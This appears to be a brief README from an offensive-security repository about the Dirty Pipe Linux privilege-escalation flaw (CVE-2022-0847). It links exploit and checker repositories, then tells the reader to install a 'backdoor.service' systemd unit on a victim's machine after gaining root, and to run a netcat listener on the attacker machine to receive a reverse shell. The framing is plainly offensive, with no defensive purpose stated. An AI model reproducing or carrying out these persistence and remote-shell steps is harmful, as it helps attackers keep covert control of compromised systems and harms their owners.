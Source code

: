 

# CVE-2022-0847-DirtyPipe-Exploits
- https://github.com/febinrev/dirtypipez-exploit
- https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker

# Backdoor
- On the victim's machine, once priviledge has been achieved, put the backdoor.service in /etc/systemd/system folder. And run `$ sudo systemctl enable backdoor.service --now`. Note that the IP of the attacker device/server needs to be changed.

- On attacker machine, execute whenever you want to connect: `$ nc -nvlp 9001`


